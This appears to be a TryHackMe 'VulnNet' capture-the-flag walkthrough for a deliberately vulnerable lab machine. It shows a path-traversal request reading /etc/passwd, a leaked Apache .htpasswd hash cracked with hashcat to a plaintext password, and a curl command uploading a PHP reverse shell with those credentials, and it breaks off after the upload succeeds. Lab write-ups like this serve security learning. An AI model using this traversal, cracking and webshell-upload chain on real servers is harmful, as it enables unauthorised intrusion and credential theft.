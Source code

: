 <code>

  ## VulnNet
  
LINK : https://tryhackme.com/room/vulnnet1


GET http://vulnnet.thm/index.php?referer=//etc/passwd HTTP/1.1

Looking at the above screenshot we see that the credential for the broadcast.vulnnet.thm is stored in

/etc/apache2/.htpasswd


 developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0

D:\__Instal\____tryhackme_tools\hashcat-6.2.6>hashcat.exe -m 1600 hash2.txt rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) UHD Graphics 630, 6432/12965 MB (2047 MB allocatable), 24MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1475 MB

Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0:9972761drmfsls

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
Time.Started.....: Mon Jun 02 12:51:22 2025 (9 mins, 44 secs)
Time.Estimated...: Mon Jun 02 13:01:06 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3749 H/s (17.72ms) @ Accel:4 Loops:3 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2187264/14344385 (15.25%)
Rejected.........: 0/2187264 (0.00%)
Restore.Point....: 2162688/14344385 (15.08%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:999-1000
Candidate.Engine.: Device Generator
Candidates.#1....: Angelica6 -> 8891137

Started: Mon Jun 02 12:51:02 2025
Stopped: Mon Jun 02 13:01:08 2025

## $apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0:9972761drmfsls

## reverse shell
─$ curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:9972761drmfsls
{"success":"yes","file_name":"17488640255add7e","extension":"php","file_directory":"2025\/06\/02"}                                                                                                                     




</code>
